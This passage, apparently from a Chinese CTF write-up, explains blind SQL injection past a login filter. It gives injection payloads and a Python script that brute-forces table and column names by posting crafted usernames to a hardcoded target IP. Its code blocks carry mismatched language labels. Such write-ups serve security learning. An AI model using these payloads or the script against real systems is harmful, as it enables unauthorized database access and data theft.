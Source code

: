 这里介绍两个

```cobol
a' or exists(select * from user)#

这里如果返回true 就说明 user存在


a'or admin.test is null  
 
 
这里返回true 说明不存在
```

但是这两个都不能用 因为全过滤了

这里我们就开始犯了难了

这里我们可以使用另一个爆破方法

```vbnet
a'or(length((select(group_concat(flag))from(blindsql.test)))>0)#
 
 
这里的test和flag是我们需要替换到字典中的内容的
 
这里其实就是真的纯纯爆破
```

```cobol
import requests
import sys
 
url = 'http://114.67.175.224:13436/'
res = '爆破了'
shuzi = 1
#读取字典
file = open(r'C:\Users\Administrator\Desktop\攻防\渗透\字典\密码\Top50.txt','r')
lines = file.readlines()
file.close()
lines = [line.rstrip() for line in lines]
for line in lines:
    for line2 in lines:
        paylaod = """a'or(length((select(group_concat({0}))from(blindsql.{1})))>0)#""".format(line2,line)
        print(paylaod)
        data = {
                'username':paylaod,
                'password':'asdba'
                }
        responce = requests.post(url=url,data=data)
        shuzi +=1
        if "password error!" in responce.text:
            print("爆破结束----爆破了"+str(shuzi)+"次")
            print(paylaod)
            print("表名为："+line)
            print("字段名为:"+line2)
            sys.exit()
```
